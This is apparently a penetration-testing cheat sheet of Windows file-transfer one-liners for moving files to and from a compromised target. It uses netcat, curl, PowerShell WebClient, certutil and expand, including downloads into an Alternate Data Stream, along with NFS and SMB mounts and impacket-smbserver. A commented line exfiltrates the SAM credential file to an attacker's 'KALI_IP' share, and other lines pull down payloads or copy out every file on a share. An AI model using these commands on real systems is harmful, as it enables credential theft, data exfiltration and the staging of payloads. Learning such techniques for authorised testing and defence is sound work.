 # Windows File Transfers

## Netcat

##### start listener on target
```sh
nc -nlvp [PORT] > [RECIVING_FILE]
```
##### send the file
```
nc [IP] [PORT] < [SENDING_FILE]
```

## Curl

```sh
curl -F "upload=@[FILE]" https://[IP]/[FILE]
```

```
curl -o [FILE] https://[IP]/[FILE]
```

## PowerShell

```powershell
(New-Object Net.WebClient).DownloadFile("http://[IP]/[FILE]","C:\Path\To\[FILE]")
 ```
 ```powershell
Invoke-WebRequest 'http://[IP]/[FILE]' -OutFile "[FILE]"
```
```powershell
invoke-webrequest -uri http://[IP]/[FILE] -out C:\Path\To\[FILE]
```
```powershell
(New-Object System.Net.WebClient).UploadFile('http://[IP]/[FILE]','[FILE]')
```
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile(http://[IP]/[FILE]','[FILE]')"
```
```powershell
powershell iwr -uri http://[IP]/[FILE] -outfile [FILE]
```

##### PowerShell 3
```
(net.webclient).downloadstring("http://[IP]/[FILE]") > C:\Path\To\[FILE]
```
```
(net.webclient).downloadfile("http://[IP]/[FILE]", "C:\Path\To\[FILE]")
```


## certutil

```bat
certutil -urlcache -split -f http://[IP]/[FILE] [FILE]
```
```
certutil -verifyctl -f -split http://[IP]/[FILE] [FILE]
```

## expand
```
expand http://[IP]/[FILE] [FILE]
```
##### ADS
```Download from SBM share into Alternate Data Stream
expand \\[IP]\[FILE] C:\Path\To\[FILE]:[FILE]
```

## NFS Shares
```sh
sudo mkdir -p /mnt/[SHARE]
mount -t nfs -o vers=3 [IP]:/[FOLDER]/ /mnt/[SHARE]
```
```sh
sudo mkdir -p /mnt/[SHARE]
mount -t nfs -o vers=2 REMOTE_IP:/[FOLDER]/ /mnt/[SHARE]
```
##### Unmount
```sh
sudo umount /mnt/[SHARE]
```
##### Mount at Boot
```sh
[IP]:/[SHARE]/[FOLDER]  /mnt/[SHARE]  nfs  defaults,vers=3  0  0
```

## SMB Shares

##### Mount SMB Share
```sh
sudo mount -t cifs -o vers=1.0 //[REMOTE_IP]/[SHARE] /mnt/[SHARE]
```
##### Host SMB Share
```sh
sudo impacket-smbserver [SHARE] .
# to use for exfil: copy C:\Windows\Repair\SAM \\KALI_IP\[SHARE]\sam.save
```
##### Upload from Target
```
copy C:\Path\To\[FILE] \\[IP]\[SHARE]\[FILE]
```
##### Upload with curl to Target
```sh
curl --upload-file /Path/To/[FILE] -u 'DOMAIN\[USER]' smb://[IP]/[SHARE]/
```
##### Use smbclient to Get ALL files from an SMB share
```sh
smbclient //[IP]/[SHARE]
RECURSE ON
PROMPT OFF
mget *
```